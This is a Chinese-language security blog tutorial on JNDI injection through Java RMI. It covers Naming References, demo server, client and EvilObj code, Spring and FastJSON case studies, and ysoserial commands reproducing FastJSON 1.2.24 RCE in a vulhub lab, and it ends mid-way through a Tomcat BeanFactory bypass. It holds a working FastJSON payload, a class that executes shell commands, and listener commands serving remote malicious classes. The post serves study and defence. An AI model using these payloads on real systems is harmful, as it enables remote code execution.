## 0x00 前言

在现实环境中，遇到RMI Registry的机会很少，而结合反序列化漏洞的JNDI注入则常见了许多。本文将介绍RMI结合JNDI后可以做哪些事情XD

<!-- more -->

## 0x01 基础

在看JNDI同RMI的利用前，我们先来看看关于RMI动态类加载的概念。

### RMI动态类加载

RMI有一个重要的特性是动态类加载机制，当本地CLASSPATH中无法找到相应的类时，会在指定的codebase里加载class。codebase可以在系统属性java.rmi.server.codebase设置其URL。如果codebase的URL可控，那么我们就可以载入任意的class或jar文件。根据P牛的Java安全漫谈- RMI篇中提到，通过修改传递过程中的序列化数据，将其中的codebase修改为恶意的server，这样可以达到RMI Server端被攻击的效果。不过，这个利用条件比较苛刻，并且oracle在后面对其做了限制，如果要成功利用需要满足如下要求：

> * 安装并配置了SecurityManager
> * Java版本低于7u21，6u45或者设置了`java.rmi.server.useCodebaseonly=false`
>
> 摘自Java安全漫谈-RMI篇

其中上面的配置，在7u21，6u45后的版本里默认为`true`，那么也就无法从远程codebase中载入类，避免了上面说的这种攻击的可能性。

### JNDI的相关概念

> Java Naming and Directory Interface (JNDI) is a Java API that allows clients to discover and look up data and objects via a name.
>
> https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

JNDI方便了与naming service和Directory service的交互，通过指定特定的URL即可与不同的服务进行交互。相当于对这些服务的API又进行了一次封装供开发人员使用。其中JNDI中也存在上述RMI codebase的动态加载机制，并且其配置同底层的RMI配置并不相关。



从上述的构架来看，动态加载发生于两个部分，Naming Manager和JNDI SPI。这里SPI部分就是相对应的服务的配置，比如前文提到的RMI的限制就是SPI部分的。而Naming Manager也存在一个动态加载机制并且其在修复前并无限制，这里Naming Manager部分用到的是JNDI的Naming References

> In order to bind Java objects in a Naming or Directory service, it is possible to use Java serialization to get the byte array representation of an object at a given state. However, it is not always possible to bind the serialized state of an object because it might be too large or it might be inadequate.
>
> For such needs, JNDI defined **Naming References** (or just References from now on) so that objects could be stored in the Naming or Directory service indirectly by binding a reference that could be decoded by the Naming Manager and resolved to the original object.
>
> https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

这里提到由于某些情况不能直接将远程obj返回，所以JNDI提出了Naming References的方法，返回相应的Reference而不返回具体的obj。统一由JNDI的请求端去加载指定的地址上的obj。这里加载方法中就包括远程codebase的方法，来看个例子

```java
String FactoryURL = "http://some-evil-server";
Reference reference = new Reference("MyClass","MyClass",FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
ctx.bind("Foo", wrapper);// 绑定reference
```

请求端以lookup请求上述绑定的RMI服务即可。其处理过程引用https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf



## 0x02 原理

### JNDI with RMI DEMO

为了更好的说明，以下面的代码为例

```java
package train.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);

        String FactoryURL = "http://localhost/";
        Reference reference = new Reference("EvilObj","EvilObj",FactoryURL);
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("Foo", wrapper);
    }
}
```

Server端以RMI Registry注册一个Reference，并将factoryURL指定为localhost

```java
package train.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Client {
    public static void main(String[] args) throws Exception {
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/Foo");
    }
}
```

Client端比较简单，直接以lookup指定的RMI URL即可。根据上面的过程图，我们可以知道的是最终执行EvilObj的地方是Client端(jndi发起lookup的方法)。最后我们创一个EvilObj

```java
/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class EvilObj {

    public EvilObj() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/sh", "-c", "open /System/Applications/Calculator.app"};
        rt.exec(commands);
    }
}
```

`javac EvilObj.java`生成EvilObj.class，然后挂载到一个web服务上就可以了。可以直接选择python来挂载

那么我们来具体看一下lookup函数具体做了什么

首先InitialContext的lookup函数，会根据提供的URL自动选择合适的InitialContext（分离出协议后进行选择），比如此时的InitialContext为rmiURLContext



继续跟进`com/sun/jndi/toolkit/url/GenericURLContext.java#lookup`



这里的ctx为RegistryContext，将对指定的RMI Registry获取绑定的obj



获取到远程对象，并调用decodeObject函数



如果当前的remote对象是RemoteReference类型，则进一步请求Registry获取该Reference的内容。到这里为止，我们接下来的请求就同Server端的关系不大了，Client会根据拿到的Reference请求相应的服务器

继续跟进getObjectInstance



这里会继续调用NamingManager的getObjectFactoryFromReference，该函数完成了向FactoryURL请求具体的class文件的功能。



这里可以看到，根据factoryName和codebase将远程载入相应的class文件(这里的loadClass用的URLClassLoader来完成任务)


并在第163行对载入的obj进行初始化，这也就是为什么我们需要把payload写在构造函数里。

在利用中，lookup函数的参数必须是可控的，或者利用反序列化利用链的方式来完成，比如下面的两个案例

### 案例一：Spring框架的JtaTransactionManager类

16年的时候Spring框架暴了一个反序列化的可利用点JtaTransactionManager，其原理就是利用了JNDI 可控的lookup参数（这里的可控由反序列化来完成）。来看一下原理

`org/springframework/transaction/jta/JtaTransactionManager.java#readObject`



这里1230行初始化了一个jdni的context，这个context将用于后续的JNDI lookup

继续跟进initUserTransactionAndTranscationManager



继续跟进lookupUserTransaction



这里最终调用了context的lookup函数，并且其参数为userTransactionName，这个部分我们可以在序列化前进行构造，例如下面的代码(更新在了ysoserial的spring3上)



到了如今2020年，这个类的利用仍然存在于最新版的Spring-tx组件上XD

### 案例二：FastJSON反序列化POC JdbcRowSetImpl类

fastjson由于`@type`的存在，在受影响的版本中，其可以对任意指定的对象进行反序列化，根据规则自动调用setter/getter来达到实例还原的目的。首先来看一下POC

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/obj","autoCommit":true}
```

这里的关键在于autoCommit，来看一下JdbcRowSetImpl的setAutoCommit函数



这里如果conn为null的话，会调用connect函数，看一下connect函数



看到这里用JNDI进行数据库连接，并且由于fastjson的特性dataSource是可控的，这就意味着我们可以控制lookup的参数，并向恶意的server发起JNDI连接。根据前文说的原理，我们可以使得主机执行任意代码。

## 0x03 环境复现

### 改造JRMPListener

由于JNDI底层用的都是RMI的东西，所以我们要建立一个绑定了Reference的RMI服务，可以直接改改JRMPListener。

在RMI部分曾经分析过JRMPListener，其返回了ExceptionalReturn，使得构造好的Exception在Client反序列化执行命令。而对于绑定Reference，我们需要修改ExceptionalReturn为NormalReturn并将payloadObject改为ReferenceWrapper



payloadObject改为ReferenceWrapper



但是在实际测试时，发现Client请求后不能完全退出。其实我们也可以直接用上面的例子



不过这里就获取不到是否有访问进来，根据实际的环境取舍吧XD

改造后的已更新到[github](https://github.com/wh1t3p1g/ysoserial)上

```bash
// 开启挂载了evil class文件的HTTP Server
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.PayloadHTTPServer 80 EvilObj "open /System/Applications/Calculator.app"

// 开启RMI Reference Listener
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener 1099 EvilObj http://localhost/

// 或者使用RMIRefListener2，集合了上面两个步骤
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 localhost:1099 80 EvilObj "open /System/Applications/Calculator.app"
```

### FastJSON 1.2.24 RCE

这里我们以FastJSON 1.2.24版本的RCE为例，来试验JNDI

首先开启一个evil rmi server

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 host:1099 80 EvilObj "touch /tmp/success"
```

用[vulhub](https://github.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/README.md)的环境



在服务器端会接收到连接



进到docker里可以看到生成了success文件



## 0x04 后续

前文用的环境是JDK8u111，在后续的JDK8u113以及JDK6u132, JDK7u122之后增加了对远程codebase的限制

> 系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true。
>
> Changelog:
>
> - JDK 6u141 http://www.oracle.com/technetwork/java/javase/overview-156328.html#R160_141
> - JDK 7u131 http://www.oracle.com/technetwork/java/javase/7u131-relnotes-3338543.html
> - JDK 8u121 http://www.oracle.com/technetwork/java/javase/8u121-relnotes-3315208.html
>
> 摘自https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

那么如果存在这样一个漏洞但是又是高版本的JDK环境，该怎么进行bypass呢？

> 1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
> 2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。
>
> 摘自https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

上面的这篇文章提出了上面两种方案来进行。

### 利用底层协议实现上的漏洞

先来说一下第二种，这里提到利用的是LDAP，这部分我们后面再详细叙述，其实原理跟RMI的反序列化问题是一样的。

我在[浅谈Java RMI反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)中曾提到过，JRMPListener利用的是RMI Client在接收Exception时发生的反序列化漏洞。而这里的JNDI底层用的仍然是RMI那套(如果协议是RMI的话)，所以我们发起一个链接到ysoserial的JRMPListener也还是能成功利用的，不管有没有设置`com.sun.jndi.rmi.object.trustURLCodebase`为true。当然如果要利用成功，发起端必须要有反序列化利用链所依赖的组件并且合适的JDK版本才可以。

### 利用可利用的本地Factory对象

然后我们来继续看看第一种情况

在前面分析NamingManager的getObjectFactoryFromReference时，我略过了本地的factory的载入部分的代码



这里首先会在本地的CLASSPATH里找这个factoryName，如果找到了，后续就不用进行远程加载。所以如果本地可以找到一个可利用的factory，也能突破JNDI的远程加载的限制。

前面的文章中提到了tomcat（或glassfish）中的BeanFactory的利用，来分析一下

首先在后续的调用中，factory的getObjectInstance函数将会被调用

```java
// ref 为我们传入的Reference 可控
// name 为factory的name，这里就是我们自己伪造的*EvilObj* 可控
factory.getObjectInstance(ref, name, nameCtx, environment);
```

来看一下BeanFactory中getObjectInstance函数的实现，函数有点长，我们挑重点看

```java
if (obj instanceof ResourceRef) {

            try {

                Reference ref = (Reference) obj;
                String beanClassName = ref.getClassName();
                Class<?> beanClass = null;
                ClassLoader tcl =
                    Thread.currentThread().getContextClassLoader();
                if (tcl != null) {
                    try {
                        beanClass = tcl.loadClass(beanClassName);// 载入指定class
                    } catch(ClassNotFoundException e) {
                    }
                } else {
                    try {
                        beanClass = Class.forName(beanClassName);// 载入指定class
                    } catch(ClassNotFoundException e) {
                        e.printStackTrace();
                    }
                }
                // ...
                // ...
                Object bean = beanClass.newInstance();// 实例化
```

先看这部分代码，当前我们传入的Reference必须是ResourceRef对象，并在后续加载ResourceRef的beanClass和shilihuanewInstance进行(而这里的class我们可以在赋值时随意指定)。

```java
RefAddr ra = ref.get("forceString");
Map<String, Method> forced = new HashMap<>();
String value;

if (ra != null) {
    value = (String)ra.getContent();
    // ...

    /* Items are given as comma separated list */
    for (String param: value.split(",")) {
        param = param.trim();

        index = param.indexOf('=');
        if (index >= 0) {// 如果内容中存在=，提取=后面的字符串作为函数名
